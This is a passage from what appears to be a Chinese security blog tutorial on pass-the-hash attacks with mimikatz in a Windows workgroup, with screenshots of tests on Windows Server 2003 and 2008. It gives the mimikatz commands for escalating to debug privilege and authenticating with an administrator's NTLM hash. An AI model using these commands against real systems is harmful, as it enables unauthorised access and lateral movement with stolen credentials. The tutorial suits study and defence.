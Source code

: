 

![](https://img-blog.csdnimg.cn/20200209211212868.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### mimikatz进行哈希传递攻击PtH(工作组)



*   Windows Vista 之前的机器，可以使用本地管理员组内用户进行攻击。

*   Windows Vista 之后的机器，只能是administrator用户的哈希值才能进行哈希传递攻击，其他用户(包括管理员用户但是非administrator)也不能使用哈希传递攻击，会提示拒绝访问。



```
privilege::debug    #先提权      
#使用administrator用户的NTLM哈希值进行攻击      
sekurlsa::pth /user:用户名  /domain:目标机器IP  /ntlm:密码哈希
```




**Windows Server 2003**



本地管理员：



*   administrator

*   xie



![](https://img-blog.csdnimg.cn/20200406114421333.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200406114459609.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**Windows Server 2008** 



本地管理员：



*   administrator

*   xie



![](https://img-blog.csdnimg.cn/2020040611463187.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200406114705838.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

